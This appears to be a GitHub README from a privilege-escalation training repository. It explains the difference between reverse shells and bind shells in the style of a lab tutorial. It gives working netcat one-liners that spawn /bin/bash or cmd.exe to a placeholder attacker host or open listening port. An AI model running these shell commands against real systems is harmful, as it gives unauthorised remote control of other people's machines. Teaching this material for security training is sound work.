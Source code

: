 <h1>$${\color{red}Types} \space {\color{Goldenrod}of } \space {\color{blue}Shell}$$</h1>

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.


1. ***Reverse shells*** are when the target is forced to execute code that connects back to your computer.
> Reverse shells are a good way to ***bypass firewall rules*** that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

2. ***Bind shells*** are when the code executed on the target is used to start a listener attached to a shell directly on the target.
> This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be ***prevented by firewalls protecting*** the target.

As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

************




<h3 align="center">Reverse Shell example:</h3>


Let's start with the more common reverse shell.

Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

```sudo nc -lvnp 443``` <kbd>Your Machine</kbd>

On the target:

```nc <LOCAL-IP> <PORT> -e /bin/bash``` <kbd>Target Machine</kbd>

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/4c95ad4d-6a99-43dd-9bda-6fd86636a5a2">
</p>

> Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

*************



<h3 align="center">Bind Shell example:</h3>

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

```nc -lvnp <port> -e "cmd.exe"``` <kbd>Target Machine</kbd>

On the attacking machine:

```nc MACHINE_IP <port>``` <kbd>Your Machine</kbd>

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/094522dc-1d3d-4a06-9710-f06d5498b8b1">
</p>

> As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

> The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

*******






